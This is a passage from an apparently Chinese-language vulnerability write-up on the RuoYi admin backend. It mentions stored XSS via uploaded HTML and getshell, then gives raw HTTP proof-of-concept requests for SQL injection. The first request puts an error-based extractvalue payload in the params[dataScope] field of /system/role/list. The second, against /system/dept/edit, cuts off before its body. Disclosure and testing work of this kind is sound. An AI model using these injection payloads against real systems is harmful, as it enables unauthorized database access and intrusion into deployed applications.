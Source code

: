 这种情况可以打带有xss的html文件，造成存储xss  
  
没限制的网站可以直接getshell  
  
若依后台漏洞  
## 若依后台存在多处sql注入漏洞  
### 漏洞简介  
  
若依后台存在多个SQL注入点  
### 漏洞复现  
  
进入后台后，拦截角色管理页面的请求包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGY7eLanJmhHzXQH8ibbwkgXFAcv0vV26yhAPXhENo7z1zJDwajbFvueg/640?wx_fmt=png&from=appmsg "")  
  
  
POC：  

```
POST /system/role/list HTTP/1.1
Host: 127.0.0.1
Content-Length: 179
sec-ch-ua: &#34;Chromium&#34;;v=&#34;109&#34;, &#34;Not_A Brand&#34;;v=&#34;99&#34;
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
sec-ch-ua-platform: &#34;Windows&#34;
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/system/role
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: o0At_2132_saltkey=JW6Gt2hb; o0At_2132_lastvisit=1691240426; o0At_2132_ulastactivity=2db4EUfD9WS50eLvnip%2B9TxK2ZhcO65vPL0dA6sPVF8AQSBMa6Qn; JSESSIONID=cfcf2d1f-f180-46cf-98bb-5eacc4206014
Connection: close
pageSize=&pageNum=&orderByColumn=&isAsc=&roleName=&roleKey=&status=&params[beginTime]=&params[endTime]=&params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGUFogFMsHXA1vGUKjJuAtiaiaZvQibsefxGNAnl7CpV2FgylZlKzDz5nQw/640?wx_fmt=png&from=appmsg "")  
  
  
第二个sql注入点：角色编辑接口  
  
POC:  

```
POST /system/dept/edit HTTP/1.1
Host: 127.0.0.1
Content-Length: 111
sec-ch-ua: &#34;Chromium&#34;;v=&#34;109&#34;, &#34;Not_A Brand&#34;;v=&#34;99&#34;
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
sec-ch-ua-platform: &#34;Windows&#34;
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
```